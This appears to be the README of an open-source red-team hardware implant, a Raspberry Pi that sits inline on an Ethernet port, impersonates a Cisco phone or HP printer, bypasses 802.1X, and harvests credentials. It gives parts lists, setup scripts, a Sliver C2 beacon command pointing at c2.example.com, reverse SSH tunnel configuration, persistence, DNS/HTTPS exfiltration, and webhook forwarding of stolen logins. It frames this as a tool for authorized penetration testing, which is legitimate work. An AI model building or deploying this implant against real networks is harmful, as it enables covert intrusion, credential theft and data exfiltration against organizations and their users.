








<p align="center">
  
</p>

<h1 align="center">TrashPandaPaws</h1>

<p align="center">
  <a href="https://github.com/BenjiTrapp/TrashPandaPaws"></a>
  
  
  
</p>

Red Team network hardware implant built on a Raspberry Pi 4 with a custom PCB HAT,
running **ParrotOS** (ARM64). Designed for authorized penetration testing engagements.

## Overview

The Raccoon Implant is an inline Ethernet tap that bridges two network ports on a custom HAT,
captures traffic transparently, and provides remote C2 access — all powered via PoE from
the upstream switch port. The device presents itself as either a Cisco IP Phone or an HP
network printer to blend into enterprise infrastructure.

## Architecture





## Hardware

Three build variants — pick the one that fits your engagement:

| | Lite (off-the-shelf) | v1 (Pi 4 + HAT) | v2 (CM4 carrier) |
|---|---|---|---|
| Custom PCB | None | 1 (2-layer HAT) | 1 (4-layer carrier) |
| Boards | Pi + switch | 2 (stacked) | 1 |
| Total size | Pi + switch box | 85×56 + 65×56mm | 85×56mm |
| Cost | ~€95 | ~$75 + PCB | ~$53 + PCB |
| PoE | External (UniFi switch) | Custom HAT | On-board |
| Soldering | None | SMD (HAT) | Fine-pitch (CM4) |
| Best for | Lab / quick deploy / training | Field deployment | Covert long-term |

### Lite: Raspberry Pi + UniFi PoE Switch

Zero soldering, fully off-the-shelf. A Raspberry Pi 4 with a USB Ethernet
adapter and an external UniFi PoE switch for power and connectivity.
Ideal for lab testing, training, and quick field deployments where
stealth is less critical.


**Shopping List:**

| Qty | Item | Search Term | Est. Price |
|-----|------|-------------|------------|
| 1 | Raspberry Pi 4 Model B 4GB | `Raspberry Pi 4 Model B 4GB RAM` | ~60 € |
| 1 | USB 3.0 Gigabit Ethernet Adapter | `USB 3.0 Gigabit Ethernet Adapter RTL8153` | ~12 € |
| 1 | microSD Card 32GB+ (A2) | `SanDisk Extreme 32GB microSD A2` | ~10 € |
| 1 | UniFi USW-Flex-Mini | `Ubiquiti USW-Flex-Mini` | ~30 € |
| 3 | Kurze Ethernet-Kabel (30cm) | `Cat6 Ethernet Kabel 30cm kurz` | ~8 € |
| 1 | USB-C Netzteil 5V 3A (falls kein PoE) | `Raspberry Pi 4 USB-C Netzteil 5V 3A` | ~10 € |

> **Total: ~€95** (ohne PoE-Injector) — alles bei Amazon/Alternate sofort bestellbar.

**Power Options:**

| Setup | Wie |
|-------|-----|
| PoE-powered switch | UniFi USW-Flex-Mini an einem PoE-Switch-Port — versorgt sich selbst |
| PoE → Pi | USW-Flex-Mini + PoE-Splitter (z.B. `UCTRONICS PoE Splitter USB-C 5V`) → Pi USB-C |
| Standalone | USB-C Netzteil für Pi + normaler Switch-Uplink |

**Vorteile:**
- Kein Löten, kein PCB — in 10 Minuten einsatzbereit
- Leicht austauschbare Komponenten
- UniFi Switch als "normales Netzwerkgerät" unauffällig
- Perfekt für Red-Team-Trainings und PoC-Demos

**Nachteile:**
- Größer als v1/v2 (zwei separate Geräte)
- Kein integriertes PoE für den Pi (Splitter oder USB-C nötig)
- Weniger covert als Custom-Board im Telefon-/Drucker-Gehäuse

**Quick Start (Lite):**

```bash
# 1. ParrotOS auf SD flashen
# 2. Pi booten, USB-Ethernet anschließen
sudo ./software/setup/bootstrap.sh
sudo ./software/setup/configure_bridge.sh
sudo ./services/install.sh

# 3. UniFi Switch: Uplink an Target-Netzwerk, Pi an Port 2, Target an Port 3
sudo reboot
```

### v1: Raspberry Pi 4 + Custom PoE HAT

| Component               | Part                  | Purpose                        |
|--------------------------|-----------------------|--------------------------------|
| SBC                      | Raspberry Pi 4B 4GB   | Compute (ParrotOS ARM64)      |
| PoE PD Controller        | SI3402-B              | IEEE 802.3af PoE extraction   |
| DC-DC Converter          | TPS54302              | 48V → 5V @ 3A                 |
| USB-to-GbE Controller    | RTL8153B-VB-CG        | Second Ethernet port          |
| RJ45 Jack                | HR911105A             | Downstream Ethernet connector |
| GPIO Header              | 2x20 pin 2.54mm      | Pi HAT interface              |

Full BOM: [`hardware/bom.csv`](hardware/bom.csv)
PCB Design: [`hardware/kicad/`](hardware/kicad/)

### v2: Integrated Carrier Board (CM4)

Single-board design that replaces the Pi 4 + HAT stack with a Raspberry Pi
Compute Module 4 carrier board. Everything on one 85×56mm 4-layer PCB.



| | v1 (Pi 4 + HAT) | v2 (CM4 carrier) |
|---|---|---|
| Boards | 2 (stacked) | 1 |
| Size | 85×56 + 65×56mm | 85×56mm |
| Height | ~25mm | ~10mm |
| Cost | ~$75 | ~$53 |
| ETH1 | USB cable/dongle | On-board traces |
| PCB layers | 2 | 4 |

Design guide: [`hardware/v2-integrated/design-guide.md`](hardware/v2-integrated/design-guide.md)
BOM: [`hardware/v2-integrated/bom.csv`](hardware/v2-integrated/bom.csv)

### Shopping List — v1 HAT Components (Retail)

Additional retail parts needed alongside the v1 HAT PCB:

| Qty | Item | Search Term | Est. Price |
|-----|------|-------------|------------|
| 1 | Raspberry Pi 4 Model B 4GB | `Raspberry Pi 4 Model B 4GB RAM` | ~60 € |
| 1 | microSD Card 32GB+ (A2, U3) | `SanDisk Extreme 32GB microSD A2` | ~10 € |
| 2 | Kurze Ethernet-Kabel (30cm, Cat6) | `Cat6 Ethernet Kabel 30cm kurz` | ~5 € |

> **Note:** The v1 HAT provides PoE power and the second Ethernet port
> on-board — no USB adapter or USB-C PSU needed in production. For lab
> testing without the HAT, use the **Lite** variant above.

### Parts Sourcing (Electronic Distributors)

All ICs and passives for the custom PoE HAT PCB. Links point to manufacturer
part pages on Mouser, DigiKey and LCSC — these are stable part-number URLs.

#### ICs & Active Components

| Part | MPN | Description | Distributor Links |
|------|-----|-------------|-------------------|
| PoE PD Controller | SI3402-B-FS | IEEE 802.3af PD, QFN-20 | [Mouser](https://www.mouser.com/c/?q=SI3402-B-FS) · [DigiKey](https://www.digikey.com/en/products/filter?keywords=SI3402-B-FS) |
| DC-DC Converter | TPS54302DDCR | 3A 28V step-down, SOT-23-6 | [Mouser](https://www.mouser.com/c/?q=TPS54302DDCR) · [DigiKey](https://www.digikey.com/en/products/filter?keywords=TPS54302DDCR) |
| USB-GbE Controller | RTL8153B-VB-CG | USB 3.0 to GbE, QFN-48 | [LCSC](https://www.lcsc.com/search?q=RTL8153B-VB-CG) |
| 3.3V LDO | AP2112K-3.3TRG1 | 600mA LDO, SOT-23-5 | [Mouser](https://www.mouser.com/c/?q=AP2112K-3.3TRG1) · [DigiKey](https://www.digikey.com/en/products/filter?keywords=AP2112K-3.3TRG1) |
| SPI Flash | W25Q16JVSSIQ | 16Mbit, SOP-8 (RTL8153B FW) | [LCSC](https://www.lcsc.com/search?q=W25Q16JVSSIQ) |

#### Magnetics, Connectors & Diodes

| Part | MPN | Description | Distributor Links |
|------|-----|-------------|-------------------|
| PoE Transformer | 750342460 | Flyback 48V:5V | [Mouser](https://www.mouser.com/c/?q=750342460) |
| RJ45 + Magnetics | HR911105A | 10/100/1000, THT | [LCSC](https://www.lcsc.com/search?q=HR911105A) |
| GPIO Header | SSW-120-02-G-D | 2x20 2.54mm, THT | [Mouser](https://www.mouser.com/c/?q=SSW-120-02-G-D) · [DigiKey](https://www.digikey.com/en/products/filter?keywords=SSW-120-02-G-D) |
| USB-A Male | USB 3.0 Type-A Male | SMD, to Pi USB port | [Mouser](https://www.mouser.com/c/?q=USB+3.0+type+A+male+SMD) |
| Schottky Diode | MBRS340T3G | 40V 3A, SMA | [Mouser](https://www.mouser.com/c/?q=MBRS340T3G) |
| TVS Diode | SMBJ58A | 58V PoE protection | [Mouser](https://www.mouser.com/c/?q=SMBJ58A) |
| Dual Schottky | BAT54S | SOT-23 (×2) | [Mouser](https://www.mouser.com/c/?q=BAT54S) |
| Crystal 25MHz | 25MHz 3215 | For RTL8153B | [LCSC](https://www.lcsc.com/search?q=25MHz+3215+crystal) |
| PTC Fuse | nSMD050-24V | 500mA resettable, 1206 | [Mouser](https://www.mouser.com/c/?q=nSMD050-24V) |

#### Passives (Capacitors, Resistors, Inductors, LEDs)

| Part | MPN | Value / Package | Qty | Source |
|------|-----|-----------------|-----|--------|
| Power Inductor | SRN6045TA-100M | 10µH 3A, 1210 | 1 | [Mouser](https://www.mouser.com/c/?q=SRN6045TA-100M) |
| Inductor | LQM21FN4R7M | 4.7µH, 0805 | 1 | [LCSC](https://www.lcsc.com/search?q=LQM21FN4R7M) |
| Electrolytic Cap | UVR1H101MDD1TD | 100µF 50V (×2) | 2 | [Mouser](https://www.mouser.com/c/?q=UVR1H101MDD1TD) |
| MLCC 22µF | CL21A226MQQNNNG | 22µF 10V, 0805 (×2) | 2 | [LCSC](https://www.lcsc.com/search?q=CL21A226MQQNNNG) |
| MLCC 10µF | CL21A106KOQNNNG | 10µF 25V, 0805 (×2) | 2 | [LCSC](https://www.lcsc.com/search?q=CL21A106KOQNNNG) |
| MLCC 100nF | CL05B104KO5NNNC | 100nF, 0402 (×6) | 6 | [LCSC](https://www.lcsc.com/search?q=CL05B104KO5NNNC) |
| MLCC 10pF | CL05C100JB5NNNC | 10pF, 0402 (×2) | 2 | [LCSC](https://www.lcsc.com/search?q=CL05C100JB5NNNC) |
| Resistors | 0402 assorted | 75R, 1K, 10K, 22K, 25.5K, 49.9K, 100K | 10 | [LCSC](https://www.lcsc.com/search?q=RC0402FR) |
| LED Green | 19-217/GHC-YR1S2/3T | 0402 link activity | 1 | [LCSC](https://www.lcsc.com/search?q=19-217%2FGHC-YR1S2) |
| LED Amber | 19-217/Y2C-CQ2R2L/3T | 0402 power | 1 | [LCSC](https://www.lcsc.com/search?q=19-217%2FY2C-CQ2R2L) |

> **Tip:** Order passives (capacitors, resistors, LEDs) from LCSC — they
> ship from Shenzhen with low minimums and have every Samsung/Yageo/Murata
> part in stock. ICs and the transformer are easier to get from Mouser/DigiKey
> for guaranteed authenticity.

## Software

### Features

- Transparent Ethernet bridge (zero-config inline tap)
- Selective traffic capture with BPF filters → PCAP rotation
- **Two cover identities** (selectable via `configs/raccoon.yaml`):
  - **Cisco IP Phone 7960** — SIP/RTP/HTTP admin interface
  - **HP Color LaserJet Pro MFP M478** — HTTP (401), JetDirect/PJL (9100), LPD (515), CUPS/IPP (631), SNMP (161), Telnet (23)
- **802.1X NAC bypass** — EAPOL forwarding + passive discovery + ebtables/iptables L2/L3 rewriting
- **Remote access** — SSH reverse tunnel (autossh) + VNC (headless x11vnc), both configurable
- Credential capture from HTTP Basic Auth and Telnet login attempts
- C2 beacon over DNS/HTTPS with jittered callbacks
- Captured data exfiltration via DNS tunneling or HTTPS
- Watchdog + systemd auto-recovery
- Full Cisco IOS-style logging

### Cover Modes

| Mode | Config Value | Services | Use Case |
|------|-------------|----------|----------|
| Cisco VoIP Phone | `cisco_phone` | HTTP :80, SIP :5060, RTP :10000 | VoIP-heavy environments |
| HP Network Printer | `hp_printer` | HTTP :80, PJL :9100, LPD :515, IPP :631, SNMP :161, Telnet :23 | Office environments with network printers |

Set `cover.mode` in `configs/raccoon.yaml` to switch.

### Quick Setup

```bash
# On a fresh ParrotOS ARM64 installation (Raspberry Pi 4)
sudo ./software/setup/bootstrap.sh       # system deps + ParrotOS hardening
sudo ./software/setup/configure_bridge.sh # bridge eth0 <-> eth1
sudo ./services/install.sh               # systemd + beacon persistence
sudo reboot                              # activates MAC spoof + bridge + beacon autorun
```

After reboot the C2 beacon starts automatically via 5 independent persistence layers — no manual `systemctl start` needed.

### Beacon Persistence (Autorun)



The PID lock file prevents duplicate instances — whichever layer starts first holds the lock, the rest exit silently. The systemd timer watchdog restarts the beacon if all instances die.

### Why ParrotOS?

- Pre-installed security tools (scapy, tcpdump, nmap, aircrack, john, etc.)
- Hardened Debian base with AppArmor profiles
- Smaller attack surface than Kali (lighter desktop options)
- Official ARM64 images for Raspberry Pi 4
- `macchanger` included for boot-time MAC spoofing
- Familiar `apt` package management

### C2: Sliver Integration

The Raccoon Implant uses [Sliver](https://github.com/BishopFox/sliver) as the primary C2 framework.
The custom Python beacon serves as a fallback if the Sliver binary is unavailable.



**Deployment (on operator machine):**

```bash
# Option 1: Interactive — opens Sliver console
./software/setup/deploy_sliver.sh generate

# Option 2: Automated — generates with defaults
./software/setup/deploy_sliver.sh generate-auto c2.example.com

# Deploy to implant device
./software/setup/deploy_sliver.sh deploy 192.168.1.100

# Or generate + deploy in one step
./software/setup/deploy_sliver.sh full c2.example.com 192.168.1.100
```

**Recommended Sliver generate command:**

```
generate beacon --os linux --arch arm64 \
  --mtls c2.example.com:8888 \
  --http c2.example.com \
  --dns c2.example.com \
  --seconds 300 --jitter 20 \
  --skip-symbols \
  --name raccoon \
  --save ./bin/implant
```

### 802.1X NAC Bypass

The Raccoon Implant can bypass port-based Network Access Control (802.1X) by
sitting inline between an authenticated device and the switch.



**How it works:**

| Phase | Action | Tools |
|-------|--------|-------|
| 1. EAPOL forwarding | Bridge passes 802.1X auth frames so the victim stays authenticated | `ebtables`, `group_fwd_mask` |
| 2. Discovery | Passive ARP sniffing to learn victim MAC/IP and gateway MAC/IP | `tcpdump` |
| 3. Active bypass | Rewrite implant's outgoing traffic to use victim's MAC+IP | `ebtables`, `iptables`, `arptables` |

The victim's real traffic continues flowing through the bridge untouched.

**Enable in config:**

```yaml
nac_bypass:
  enabled: true
  discovery_timeout: 120
```

**Or run standalone:**

```bash
sudo ./software/setup/nac_bypass.sh setup    # full automated bypass
sudo ./software/setup/nac_bypass.sh status   # show discovered hosts + rules
sudo ./software/setup/nac_bypass.sh reset    # tear down everything
```

### Remote Access (SSH + VNC)

The implant establishes a **reverse SSH tunnel** back to an operator-controlled
server, giving persistent shell access even behind NAT/firewalls. An optional
**VNC server** (headless) provides a graphical desktop, accessible only through
the SSH tunnel.



**Install:**

```bash
sudo ./software/setup/remote_access.sh install     # install + configure
sudo ./software/setup/remote_access.sh show-pubkey  # print key for operator server
sudo ./software/setup/remote_access.sh status       # check services
```

**Access from operator machine:**

```bash
# Shell access (on the operator SSH server):
ssh -p 2222 root@localhost

# VNC access (forward VNC port through the tunnel):
ssh -p 2222 -L 5900:127.0.0.1:5900 root@localhost
# then connect VNC viewer to localhost:5900
```

Both features are independently configurable in `configs/raccoon.yaml`:

```yaml
remote_access:
  ssh:
    ssh_enabled: true
    ssh_remote_host: "c2.example.com"  # operator server
    ssh_remote_user: "raccoon"
    ssh_tunnel_port: 2222              # port on operator server
    ssh_key_type: "ed25519"            # auto-generated keypair
  vnc:
    vnc_enabled: false                 # enable for graphical access
    vnc_port: 5900
    vnc_password: "raccoon"
    vnc_resolution: "1024x768"
```

### Configuration

Edit [`configs/raccoon.yaml`](configs/raccoon.yaml) before deployment.

#### Cover Identity

Set `cover.mode` to choose the device the implant impersonates on the network:

```yaml
cover:
  enabled: true
  mode: "cisco_phone"    # or "hp_printer"
```

| Mode | Value | Best for | Emulated Services |
|------|-------|----------|-------------------|
| Cisco IP Phone 7960 | `cisco_phone` | VoIP/UC environments, conference rooms | HTTP login page, SIP (INVITE/OPTIONS/REGISTER), RTP echo |
| HP LaserJet MFP M478 | `hp_printer` | General offices with network printers | HP EWS login, JetDirect/PJL, LPD, IPP/CUPS, SNMP (BER), Telnet |

Both covers include:
- **Credential harvesting** — captured login attempts are logged and forwarded via notifications
- **Browser fingerprinting** — JavaScript-based recon (Canvas, WebGL/GPU, WebRTC local IP, screen resolution, timezone, installed plugins, hardware concurrency)
- **Realistic device metadata** — MAC addresses from real vendor OUI ranges, proper protocol responses

Tune service ports per cover in the same file:

```yaml
  cisco_phone:
    http_port: 80
    sip_port: 5060
    rtp_port: 10000

  hp_printer:
    http_port: 80
    pjl_port: 9100
    lpd_port: 515
    ipp_port: 631
    snmp_port: 161
    telnet_port: 23
```

#### Notifications (Slack / Discord / Teams)

Captured credentials, browser fingerprints, and system events can be pushed to one or more webhook channels in real time.

```yaml
notifications:
  enabled: true
  slack:
    enabled: true
    webhook_url: "https://hooks.slack.com/services/T.../B.../xxx"
  discord:
    enabled: true
    webhook_url: "https://discord.com/api/webhooks/123/abc"
  teams:
    enabled: true
    webhook_url: "https://your-tenant.webhook.office.com/webhookb2/..."
```

**Setting up Microsoft Teams webhooks:**

1. Open Microsoft Teams → select or create a channel for alerts
2. Click the **`...`** menu on the channel → **Connectors** (or **Manage channel** → **Connectors**)
3. Search for **Incoming Webhook** → click **Configure**
4. Give it a name (e.g. "Raccoon Implant") and optionally upload an icon
5. Click **Create** → copy the webhook URL
6. Paste the URL into `notifications.teams.webhook_url` in `raccoon.yaml`

> **Note:** Microsoft is migrating connectors to the Workflows app. If "Incoming Webhook" is unavailable, create a **Power Automate flow** instead:
> 1. Go to the channel → **`...`** → **Workflows**
> 2. Choose "Post to a channel when a webhook request is received"
> 3. Copy the generated HTTP POST URL
> 4. Use that URL as `webhook_url` — the Raccoon Implant sends Adaptive Cards which both methods support.

All three platforms can be enabled simultaneously. Each credential capture, fingerprint, and health event is dispatched to all enabled channels.

#### Test Server

Test the cover identities locally without deploying to the Pi:

```bash
# Start both covers (non-privileged ports)
python -m software.tests.test_server

# Cisco only
python -m software.tests.test_server --cover cisco

# HP Printer only
python -m software.tests.test_server --cover printer

# With Teams notifications
python -m software.tests.test_server --cover printer \
  --teams-webhook "https://your-tenant.webhook.office.com/webhookb2/..."

# With multiple notification channels
python -m software.tests.test_server --cover both \
  --slack-webhook "https://hooks.slack.com/services/..." \
  --discord-webhook "https://discord.com/api/webhooks/..." \
  --teams-webhook "https://your-tenant.webhook.office.com/..."
```

The test server uses non-privileged ports (8080/8081 for HTTP, 15060 for SIP, etc.) so no root is needed. Endpoints and test commands are printed on startup.

On Windows, set `PYTHONIOENCODING=utf-8` if box-drawing characters fail:

```powershell
$env:PYTHONIOENCODING = "utf-8"
python -m software.tests.test_server --cover both
```

## Project Structure



## Legal

This tool is intended for use in **authorized red team engagements only**.
Unauthorized use against networks you do not own or have explicit written
permission to test is illegal. The authors assume no liability for misuse.
